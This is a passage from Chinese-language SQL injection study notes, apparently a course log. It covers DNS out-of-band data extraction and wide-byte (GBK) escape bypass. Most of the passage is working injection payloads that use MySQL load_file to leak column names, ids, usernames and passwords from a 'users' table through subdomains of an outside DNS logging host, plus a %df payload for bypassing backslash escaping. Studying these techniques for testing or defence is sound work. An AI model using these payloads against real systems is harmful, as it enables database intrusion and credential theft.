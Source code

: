 ```

```
1' and load_file(concat('//',(select group_concat(column_name separator '_') from information_schema.columns where table_schema=database() and table_name='users'),'.Laffrex.eyes.sh/abc')) --+
```

##### d.获取字段数据

* DNS数据外带有字符大小限制

```
//获取id
1' AND load_file(CONCAT('\\\\',(SELECT group_concat(id separator '__') FROM users),'.Laffrex.eyes.sh/abc')) --+
//获取username
1' AND load_file(CONCAT('\\\\',(SELECT SUBSTRING(group_concat(username separator '__'), 1, 60) FROM 
users),'.Laffrex.eyes.sh/abc1')) --+		//本次字符最大长度为63
1' AND load_file(CONCAT('\\\\',(SELECT SUBSTRING(group_concat(username separator '__'), 61, 120) FROM users),'.Laffrex.eyes.sh/abc1')) --+		

1' AND load_file(CONCAT('\\\\',(SELECT substring(group_concat(concat_ws('_',id,username,password) separator '__'),1,45) FROM users),'.Laffrex.eyes.sh/abc')) --+	//本次字符最大长度45
```

## 第五天

### 1. 宽字节注入

#### (1). 概述

##### a.定义

* 宽字节是指**≥2个字节宽度**的编码技术

##### b.原因

* set **character_set_client**="gbk"，通常导致**编码转换的注入问题**

* mysql在使用**GBK编码**时，**符合条件**会认为**2个字符是1个汉字**

* 第一个字节**129-254**，第二个字节为**64-254**


##### c.原理

* ①程序员会对**特殊字符**(例如单引号)进行**正则匹配通过反斜杠\使其失效**，这时无法使用普通注入；②在为gbk编码时，攻击者可以使用ascii＞128的字符与**反斜杠\组合成新的字符**，从而**绕过**反斜杠的**转义**

#### (2).方法

##### a.黑盒

* 在注入点后键入%df，再开始正常注入

* **键入字符的ASCII要大于128**，才能和反斜杠 **“\”** 组合成一个汉字

  ```
  1%df%' order by 3 -- qwe
  ```

##### b.白盒

###### ①方法

  ```